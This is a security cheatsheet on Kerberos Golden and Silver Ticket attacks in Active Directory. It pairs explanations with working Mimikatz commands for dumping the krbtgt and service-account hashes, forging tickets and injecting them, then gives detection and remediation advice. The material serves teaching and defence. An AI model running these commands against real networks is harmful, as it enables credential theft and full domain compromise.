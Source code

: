 ## 🎫 Cheatsheet: Golden & Silver Ticket Attacks

Golden and Silver Ticket attacks are powerful post-exploitation techniques that abuse the Kerberos protocol. They allow an attacker to forge Kerberos tickets to impersonate users and maintain persistent, often undetectable, access to a network.

### **Prerequisites for Forging Tickets**
These are not initial access attacks. An attacker must first compromise:
* **For a Golden Ticket:** The `KRBTGT` account's NTLM hash (the "master key" of the domain). This is typically stolen from a Domain Controller.
* **For a Silver Ticket:** The NTLM hash of a *service account* (e.g., a computer account for a file server, or a user account running a SQL service).

---

### ## Golden Ticket Attack

**Overview:** A Golden Ticket is a forged Kerberos Ticket-Granting Ticket (TGT). Since it's signed with the domain's master `KRBTGT` hash, it can be used to impersonate **any user** (including Domain Administrators) and request access to **any service** in the domain. It is the ultimate "master key" to an Active Directory kingdom and provides long-term persistence.

#### **How It Works**
1.  An attacker compromises a Domain Controller and extracts the NTLM hash of the `KRBTGT` account.
2.  The attacker also obtains the Domain's SID.
3.  Using this information, the attacker crafts a fake TGT offline, often creating a ticket for a non-existent user but making them a member of the "Domain Admins" group.
4.  The attacker injects this ticket into their current session memory using a "Pass-the-Ticket" technique.
5.  With the forged ticket in memory, the attacker can now access any resource (file shares, domain controllers, etc.) as a Domain Admin.



#### **Execution Workflow (Conceptual)**

* **Step 1: Obtain the `KRBTGT` Hash (on a DC)**
    This requires Domain Admin privileges.
    ```powershell
    # Using Mimikatz on a Domain Controller
    mimikatz # lsadump::dcsync /domain:<your.domain> /user:krbtgt
    ```

* **Step 2: Forge the Golden Ticket**
    This is done on the attacker's machine.
    ```powershell
    # Using Mimikatz to create the ticket
    mimikatz # kerberos::golden /user:fakeadmin /domain:<your.domain> /sid:<domain_sid> /krbtgt:<krbtgt_hash> /groups:512 /ptt
    # /groups:512 adds the user to the "Domain Admins" group
    # /ptt forges and injects the ticket in one step
    ```

* **Step 3: Use the Ticket**
    After injecting the ticket, simply access any resource.
    ```powershell
    # Access a file share on the Domain Controller
    dir \\dc01\C$
    ```

#### **🛡️ Detection & Remediation**

* **Detection:** Golden Tickets are very stealthy. Detection relies on identifying anomalies:
    * Kerberos tickets with an abnormally long lifetime (Mimikatz defaults to 10 years).
    * Network traffic analysis might spot a TGT signed with a weaker encryption algorithm (RC4) when AES is enforced.
    * A user logging in from an IP address that does not match their typical behavior.
* **Remediation:**
    * **Reset the `KRBTGT` Password TWICE:** This is the **only** effective way to invalidate all Golden Tickets. It must be done twice in a row with a waiting period in between that is longer than your domain's Kerberos ticket validation time.
    * **Protect Domain Controllers:** Treat DCs as the most critical assets. Severely limit who can log into them, use Privileged Access Workstations (PAWs), and aggressively monitor for credential dumping activity.
    * **Minimize Domain Admins:** Reduce the number of accounts in highly privileged groups.

---

### ## Silver Ticket Attack

**Overview:** A Silver Ticket is a forged Kerberos Ticket-Granting Service (TGS) ticket. Unlike a Golden Ticket, which grants domain-wide access, a Silver Ticket grants access to a **specific service** on a **specific server** (e.g., the CIFS file service on `FILESERVER01`). It's a "master key to a single room," not the entire building. This attack is stealthier because it does not require contacting the Domain Controller.

#### **How It Works**
1.  An attacker compromises a target server and extracts the password hash of the account running the desired service (e.g., the computer account's hash for the CIFS service).
2.  The attacker forges a TGS ticket offline, granting themselves access to that specific service as any user, often a Domain Admin.
3.  The attacker injects the ticket into their session.
4.  The attacker can now access the specific service on the target server, and the server will validate the ticket using the hash it knows, without ever checking with the DC.

#### **Execution Workflow (Conceptual)**

* **Step 1: Obtain the Service Account Hash**
    This can be done via Kerberoasting or by dumping hashes from the target server's memory.
    ```powershell
    # Using Mimikatz on a compromised member server
    mimikatz # sekurlsa::logonpasswords
    ```

* **Step 2: Forge the Silver Ticket**
    This is done on the attacker's machine.
    ```powershell
    # Using Mimikatz. Note the use of /service and /rc4 (the service account hash)
    mimikatz # kerberos::golden /user:fakeadmin /domain:<your.domain> /sid:<domain_sid> /target:fileserver01.your.domain /service:cifs /rc4:<service_account_hash> /ptt
    ```

* **Step 3: Use the Ticket**
    Access the specific service on the target server.
    ```powershell
    # Access the C$ share on the fileserver
    dir \\fileserver01\C$
    ```

#### **🛡️ Detection & Remediation**

* **Detection:** Extremely difficult as it generates no traffic to the Domain Controller. Detection relies heavily on host-based monitoring:
    * Log and monitor access to sensitive files and services on critical servers.
    * An endpoint security solution (EDR) might detect the injection of a Kerberos ticket into memory.
* **Remediation:**
    * **Use Group Managed Service Accounts (gMSAs):** These accounts have automatically rotated, complex passwords, making it very difficult for an attacker to obtain a useful long-term hash.
    * **Enable Windows Defender Credential Guard:** This uses virtualization-based security to protect NTLM hashes from being dumped from memory.
    * **Principle of Least Privilege:** Ensure service accounts only have the minimum permissions they need to function.
